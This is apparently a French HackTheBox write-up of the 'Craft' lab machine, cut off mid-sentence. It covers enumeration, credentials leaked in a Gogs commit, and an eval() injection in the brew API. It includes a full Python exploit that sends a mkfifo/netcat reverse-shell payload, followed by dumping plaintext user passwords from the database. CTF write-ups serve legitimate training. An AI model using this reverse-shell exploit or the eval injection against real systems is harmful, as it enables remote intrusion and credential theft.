







# Write up de la box Craft 

## Intro' 

Juste pour ceux qui ne savent pas HackTheBox est une plateforme de CTF (ou box) ou on se connecte à un VPN pour "attaquer" des box sur ce reseau pour avoir un shell en user puis en root dessus. Les box sont retiré au bout d'un moment, il n'y a que 20 box active (il y a une nouvelle box chaque samedi). On peut acceder au 2 dernière box retiré mais aussi aux autres si ont a le VIP (10 $/moi).
Voila !
Sinon un petit "respect" sur [mon hackthebox](https://www.hackthebox.eu/home/users/profile/200229) serait sympa ! 
Et je vous rappelle l'existence de  [mon serveur discord](https://discord.gg/2bwhtP7)
C'était pour la pub ! Maintenant passons au choses serieuses :) 

## Enumération du début

On va commencer par rejouter l'ip de la box a /etc/host (Linux):
```
root@DESKTOP-8OBCBE1:/home/quasar# echo "10.10.10.110 craft.htb" >> /etc/hosts
root@DESKTOP-8OBCBE1:/home/quasar#
```
(oui je suis sous windows et j'use le WSL, et alors mdr ? ) 
Ou plus simplement si vous êtes sous windows 

```
PS C:\Windows\system32\drivers\etc> bash -c "echo '10.10.10.110 craft.htb' >> hosts"
PS C:\Windows\system32\drivers\etc> cat hosts
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#       127.0.0.1       localhost
#       ::1             localhost
10.10.10.110 craft.htb
PS C:\Windows\system32\drivers\etc>
```

Tres bien ! scannons les ports avec nmap maintenant:
```
C:\Users\quasa>nmap -A craft.htb
WARNING: Could not import all necessary Npcap functions. You may need to upgrade to the latest version from https://npcap.org. Resorting to connect() mode -- Nmap may not function completely
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-04 07:53 Changement de date
Nmap scan report for craft.htb (10.10.10.110)
Host is up (0.11s latency).
Not shown: 998 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey:
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
| tls-nextprotoneg:
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.13 seconds

C:\Users\quasa>
```

Comme vous remarquez le port 443 est ouvert avec du https, regardons cela.


En regardans le code source de la page (ou juste en haut à droite) on trouve:
```html
<ul class="nav navbar-nav pull-right">
            <li><a href="https://api.craft.htb/api/">API</a></li>
            <li><a href="https://gogs.craft.htb/"></a></li>
          </ul>

```

Rajoutons donc les sous domaine api et gogs à c:/windows/system32/drivers/etc/hosts:
```
10.10.10.110 craft.htb api.craft.htb gogs.craft.htb
```
Regardons maintenant l'api: 


En regardant ce qu'on peux faire, le seul truc que je trouve interessant est:


Nous avons pas de credentials continuons l'énumération sur le gogs:

Je me suis un peu documenté sur gogs et chercher s'il n'y a pas de vulnerabilité mais apparament non, j'ai donc continuer l'énumération en allant sur Explorer pus en cliquand sur CRaft/Craft API ont tombe sur ça:



Après un peu de recherche j'ai regarder dans commits:


Je me rend compte assez rapidement que les commits c414b16057 et 10e3ba4f0a sont les plus interessants:
```python
@@ -38,9 +38,13 @@ class BrewCollection(Resource):
         """
         Creates a new brew entry.
         """
-        
-        create_brew(request.json)
-        return None, 201
+
+        # make sure the ABV value is sane.
+        if eval('%s > 1' % request.json['abv']):
+            return "ABV must be a decimal value less than 1.0", 400
+        else:
+            create_brew(request.json)
+            return None, 201
 
 @ns.route('/<int:id>')
 @api.response(404, 'Brew not found.')
```
et 
```python
+#!/usr/bin/env python
+
+import requests
+import json
+
+response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
+json_response = json.loads(response.text)
+token =  json_response['token']
+
+headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }
+
+# make sure token is valid
+response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
+print(response.text)
+
+# create a sample brew with bogus ABV... should fail.
+
+print("Create bogus ABV brew")
+brew_dict = {}
+brew_dict['abv'] = '15.0'
+brew_dict['name'] = 'bullshit'
+brew_dict['brewer'] = 'bullshit'
+brew_dict['style'] = 'bullshit'
+
+json_data = json.dumps(brew_dict)
+response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
+print(response.text)
+
+
+# create a sample brew with real ABV... should succeed.
+print("Create real ABV brew")
+brew_dict = {}
+brew_dict['abv'] = '0.15'
+brew_dict['name'] = 'bullshit'
+brew_dict['brewer'] = 'bullshit'
+brew_dict['style'] = 'bullshit'
+
+json_data = json.dumps(brew_dict)
+response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
+print(response.text)
```
Comme vous le remarquez des creds, comme ça au claire dans le code : ```auth=('dinesh', '4aUh0A8PbVJxgd'),```. Puis je me permettre la remarque un peu immature: on dirait le code de Vevo avant que Prosox et Kuroi'sh deface plusieurs Youtuber.
Autre chose interessante la ligne ``` if eval('%s > 1' % request.json['abv'])```
On a une petite injection ... Présent dans plusieurs box ;-). Donc maintenant on va pouvoir utiliser les credentials qu'on a trouvé pour récuperer un token afin d'envoyer une requete à /brew avec notre payload dans "abv" afin d'avoir un RCE.
J'avais fait un exploit mais je l'ai effacé sans faire exprès, je me permet donc de reprendre celui de [0xrick](https://0xrick.github.io) que voila:
```py#!/usr/bin/python3 
import requests
import json
from subprocess import Popen
from sys import argv
from os import system

requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

GREEN = "\033[32m"
YELLOW = "\033[93m" 

def get_token():
	req = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
	response = req.json()
	token = response['token']
	return token

def exploit(token, ip, port):
	tmp = {}

	tmp['id'] = 0
	tmp['name'] = "pwned"
	tmp['brewer'] = "pwned"
	tmp['style'] = "pwned"
	tmp['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} {} >/tmp/f')".format(ip,port)

	payload = json.dumps(tmp)

	print(YELLOW + "[+] Starting listener on port {}".format(port))
	Popen(["nc","-lvnp",port])

	print(YELLOW + "[+] Sending payload")
	requests.post('https://api.craft.htb/api/brew/', headers={'X-Craft-API-Token': token, 'Content-Type': 'application/json'}, data=payload, verify=False)

if len(argv) != 3:
	print(YELLOW + "[!] Usage: {} [IP] [PORT]".format(argv[0]))
	exit()

ip = argv[1]
port = argv[2]
print(YELLOW + "[+] Authenticating")
token = get_token()
print(GREEN + "[*] Token: {}".format(token))
exploit(token, ip, port)
```

On ouvre un port, le 1337 car on est des hackers comme ceci:


On passe aux choses obscure, on se trouve dans /opt/app et tout d'un coup un petit script s'y trouvant nous interesse ...
```python
/opt/app # ls -la
total 44
drwxr-xr-x    5 root     root          4096 Jan  3 17:28 .
drwxr-xr-x    1 root     root          4096 Feb  9  2019 ..
drwxr-xr-x    8 root     root          4096 Feb  8  2019 .git
-rw-r--r--    1 root     root            18 Feb  7  2019 .gitignore
-rw-r--r--    1 root     root          1585 Feb  7  2019 app.py
drwxr-xr-x    5 root     root          4096 Feb  7  2019 craft_api
-rwxr-xr-x    1 root     root           673 Feb  8  2019 dbtest.py
drwxr-xr-x    2 root     root          4096 Feb  7  2019 tests
/opt/app # cat dbtest.py
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
        cursor.execute(sql)
        result = cursor.fetchone()
        print(result)

finally:
    connection.close()
/opt/app #
```
On a droit d'écrire dans ce répertoire j'ai donc récuperer le script et ajouter:
```python
import sys 
```
et j'ai changer la ligne:
```python
sql = "SELECT `id`, `brewer`, `name`, `abv` FROM `brew` LIMIT 1"
```
en 
```
sql = sys.argv[1]
```
On ouvre un SimpleHTTPServer dans le dossier de notre script:
```python -m SimpleHTTPServer 8080```
et on execute sur la box
```wget http://votre_ip:8080/scriptdb.py```
cela n'a pas marché au debut j'ai remarqué le fetchone() et l'ai remplacé par fetchall : ```result = cursor.fetchall()```

Maintenant amusons nous !
```python scriptdb.py "SHOW TABLES"```
resultat:
```[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]```
Regardons du coté:
```python scriptdb.py "SELECT * FROM user"```
beaucoup trop simple ;) 
```[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]```

Mmmh qui est ce gilfuoyle ? Après un peu de recherche je test les mot de passe sur gogs et recupère ses commits:

oh mais il n'a aucune idée de la sécurité: il a commit sa clé ssh ! On la récu
